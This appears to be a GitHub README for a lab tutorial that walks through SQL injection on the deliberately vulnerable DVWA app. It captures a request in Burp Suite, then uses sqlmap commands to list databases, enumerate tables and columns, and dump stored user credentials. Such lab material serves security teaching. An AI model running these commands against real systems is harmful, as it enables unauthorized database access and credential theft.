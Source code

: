 # SQL-Injection-with-SQLMap-Burp-Suite-on-DVWA



##  Overview
This project demonstrates how to perform **SQL Injection** using **SQLMap** and **Burp Suite** on **Damn Vulnerable Web Application (DVWA)** to enumerate and exploit databases.

---
##  Requirements
- **Kali Linux** (or any OS with Burp Suite & SQLMap installed)
- **Burp Suite Community Edition**
- **SQLMap**
- **DVWA (Damn Vulnerable Web App)** running on **Metasploitable 2**

---
## Steps to Exploit SQL Injection

### Capture the Request using Burp Suite
1. Open **Burp Suite** and enable **Intercept** in the **Proxy** tab.
2. In your browser, navigate to `http://<DVWA-IP>/dvwa/vulnerabilities/sqli/`.
3. Enter any value in the input field and submit the form.
4. Burp Suite will capture the **HTTP Request**.
5. Right-click the request → **Save item** as `request.txt`.

###  Use SQLMap to Test SQL Injection
Run the following command in your terminal:
```sh
sqlmap -r request.txt --dbs --batch
```
- `-r request.txt` → Uses the saved HTTP request.
- `--dbs` → Lists available databases.
- `--batch` → Auto confirms prompts.

###  Enumerate Tables & Columns
Once databases are listed, pick `dvwa` and enumerate tables:
```sh
sqlmap -r request.txt -D dvwa --tables
```
Then, retrieve columns of the `users` table:
```sh
sqlmap -r request.txt -D dvwa -T users --columns
```

###  Dump User Credentials
```sh
sqlmap -r request.txt -D dvwa -T users --dump
```
This extracts stored usernames and passwords from DVWA.

---
## Expected Output
- Lists available **databases**.
- Extracts **tables and columns** from `dvwa`.
- Dumps **user credentials** stored in the database.

---
## Legal Disclaimer
This project is for **educational purposes only**. Do not test SQL injection on unauthorized systems. Always obtain permission before conducting security tests.

---
##  Screenshots



![Screenshot 2025-02-11 190857](https://github.com/user-attachments/assets/a4f9863c-5948-4ebc-a75b-9d8c1f54f671)
![Screenshot 2025-02-11 191207](https://github.com/user-attachments/assets/9002e8b5-2b3d-4ce4-8d89-5e9bd4bf3411)
![Screenshot 2025-02-11 192130](https://github.com/user-attachments/assets/9cf8dc65-305e-479b-91ef-ca8537e96089)


For more References vist:
- [SQLMap Documentation](https://sqlmap.org/)
- [Burp Suite Official Site](https://portswigger.net/burp)

